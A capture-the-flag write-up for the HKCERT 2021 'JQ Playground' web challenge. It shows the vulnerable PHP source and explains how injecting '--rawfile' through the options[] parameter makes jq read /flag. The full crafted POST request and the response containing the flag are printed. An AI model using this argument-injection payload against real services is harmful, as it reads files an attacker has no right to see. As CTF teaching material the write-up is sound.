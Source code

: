# JQ Playground (200 point, 15 solves, ★★☆☆☆)

Solved by: Kaiziron

### Description :
```
I wrote a simple testbed for the JSON processor jq!

The flag is written in the file /flag.

http://chalp.hkcert21.pwnable.hk:28370/
```
---
### Solution :

The website http://chalp.hkcert21.pwnable.hk:28370/ : 

![](https://i.imgur.com/cAVBtnW.png)

It is a web interface to run `jq`, and it will return the output of `jq` to us.

The source code of the page is given : 
http://chalp.hkcert21.pwnable.hk:28370/?-s

```php
<?php
if (isset($_GET["-s"])) {
    highlight_file(__FILE__);
    exit();
}
if (!empty($_POST)) {
  if (empty($_POST['filter']) || empty($_POST['json'])) {
    die("Filter or JSON is empty");
  }

  $filter = escapeshellarg($_POST['filter']);
  $json = escapeshellarg($_POST['json']);
  
  $options = "";

  if (!empty($_POST['options']) && is_array($_POST['options'])) {
    foreach ($_POST['options'] as $o) {
      $options .= escapeshellarg($o) . ' ';
    }
  }

  $command = "jq $options $filter";
  passthru("echo $json | $command");

  die();
}

?>
...
```
It is taking the options post parameter as array for the command line argument for `jq`

The website has switch for us to enable some argument :

![](https://i.imgur.com/8YeXwre.png)

Although it has only 5 options for us to choose, we are not limited to those 5 options as it will add the data we specified in options[] post parameter to the command variable and execute

By reading the documentation :
https://stedolan.github.io/jq/manual/

![](https://i.imgur.com/sDc7XKh.png)

I found that the --rawfile option can be used to read a file to a variable

The description shows the flag is in `/flag`, I will read the /flag to the `$test` variable :
```
--rawfile test /flag
```
Then set the filter to overwrite `name` to the content of `/flag` using the `$test` variable :
```
.name = $test
```
Then I just intercept a normal post request using burp suite and modify the parameter to what I want :

```
POST /? HTTP/1.1
Host: chalp.hkcert21.pwnable.hk:28370
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------317966628944816405675537310
Content-Length: 689
Origin: http://chalp.hkcert21.pwnable.hk:28370
Connection: close
Referer: http://chalp.hkcert21.pwnable.hk:28370/

-----------------------------317966628944816405675537310
Content-Disposition: form-data; name="filter"

.name = $test
-----------------------------317966628944816405675537310	
Content-Disposition: form-data; name="json"

{
"name": "John",
"age": 30,
"car": null
}
-----------------------------317966628944816405675537310
Content-Disposition: form-data; name="options[]"

--rawfile
-----------------------------317966628944816405675537310
Content-Disposition: form-data; name="options[]"

test
-----------------------------317966628944816405675537310
Content-Disposition: form-data; name="options[]"

/flag
-----------------------------317966628944816405675537310--
```

Then the flag is received :
```
HTTP/1.1 200 OK
Date: Sun, 14 Nov 2021 14:20:03 GMT
Server: Apache/2.4.51 (Debian)
X-Powered-By: PHP/8.0.12
Vary: Accept-Encoding
Content-Length: 83
Connection: close
Content-Type: text/html; charset=UTF-8

{
  "name": "hkcert21{y0u\\are\\n0w\\jq\\expert!}\n",
  "age": 30,
  "car": null
}

```
### Flag :
`hkcert21{y0u\are\n0w\jq\expert!}`

---
